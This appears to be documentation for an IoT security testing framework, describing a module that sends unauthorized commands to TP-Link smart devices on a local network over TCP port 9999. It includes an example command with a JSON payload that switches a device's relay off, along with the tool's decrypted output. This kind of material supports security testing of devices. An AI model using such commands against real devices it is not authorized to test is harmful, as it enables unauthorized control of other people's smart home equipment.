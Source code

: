 TCP
====

`Transmission Control Protocol (TCP) <https://en.wikipedia.org/wiki/Transmission_Control_Protocol>`_
is one of the main protocols of the Internet protocol suite that defines how
to establish and maintain a network conversation through which application
programs can exchange data. Many lightweight implementations of TCP are
implemented in IoT.

tcp.tpliot.takeover
-------------------

This test case allows to send unauthorized commands to TP-Link smart devices
on the same network.

**Usage details:**

.. code-block:: console

   ef> run tcp.tpliot.takeover -h

Examples
^^^^^^^^

.. note::

   Use ``crypto.tpliot.decrypt`` to decrypt and convert HEX to JSON for ``-d``

.. code-block:: text

   ef> run tcp.tpliot.takeover -r 10.42.0.113 -p 9999 -d {"context":{"source":"46a4d58b-6279-432c-ae23-e115c2db8354"},"system":{"set_relay_state":{"state":0}}}
  
   [...]
   [+] Received Response: 0000002dd0f281f88bff9af7d5ef94b6c5a0d48bf99cf091e8b7c4b0d1a5c0e2d8a381e496e4bbd8b7d3b694ae9ee39ee3
   [+] Decrypted Response: {"system":{"set_relay_state":{"err_code":0}}}
   [+] Test tcp.tpliot.takeover passed


